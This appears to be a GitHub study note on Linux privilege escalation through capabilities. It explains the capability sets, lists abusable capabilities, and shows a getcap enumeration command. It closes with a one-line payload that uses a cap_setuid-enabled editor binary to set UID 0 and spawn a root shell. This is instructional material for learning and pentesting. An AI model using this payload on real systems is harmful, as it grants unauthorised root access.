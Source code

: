 # Capabilities

Linux capabilities are a per-thread attribute of the root privileges that can be assigned to processes. By providing processes with capabilities, you reduce the potential damage compared to the same process running with full root privileges. Each thread has the following capability sets:

- **Effective (CapEff)**:   Represents all the capabilities used by processes; the kernel consults this set to grant or deny permissions for requested operations.
- **Permitted (CapPrm)**:   A superset of the effective capability set that includes capabilities a thread/process can add to its effective or inheritable capability sets. 
- **Inheritable (CapInh)**: Defines capabilities a parent process can pass to its child processes. This set is preserved across an [execve call](https://github.com/KayEm06/Linux-privilege-escalation/blob/main/Capabilities.md#execve-calls)
- **Bounding (CapBnd)**:    Sets a limit on the number of capabilities a process can possess.
- **Ambient (CapAmb)**:     Applies to non-SUID binaries and retains selected capabilities of a process after an execve call. The purpose of the ambient set is to allow a process to execute a program with elevated privileges to limit the number of capabilities held by each process.

The following is a list of capabilities that can be exploited.

- CAP_CHOWN: Makes arbitrary changes to file UIDs and GIDs.
- CAP_DAC_OVERRIDE: Bypasses file read, write, and execute permissions check.
- CAP_NET_ADMIN: Performs network-related operations.
- CAP_NET_RAW: Uses RAW and PACKET sockets.
- CAP_SETGID: Manipulates GIDs
- CAP_SETFCAP: Sets arbitrary capabilities on a file.
- CAP_SETUID: Manipulates UIDs
- CAP_SYS_ADMIN: Performs a range of system administration operations.

## Execve calls

An `execve` call is a function that executes a program from within a process. Whenever a process calls the `execve` function, the memory space allocated to the process is replaced with the new program.

# Practical

I retrieve all executables with capabilities.
```
getcap -r / 2>/dev/null
```
We can use these results with [GTFOBins](https://gtfobins.github.io/) to find capability-specific binaries that can be exploited for escalated privileges.

The following payload can be run from the terminal to set the effective user ID to 0 (root) and execute the "/bin/sh" shell as root. 

```
/home/ubuntu/view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'.
```

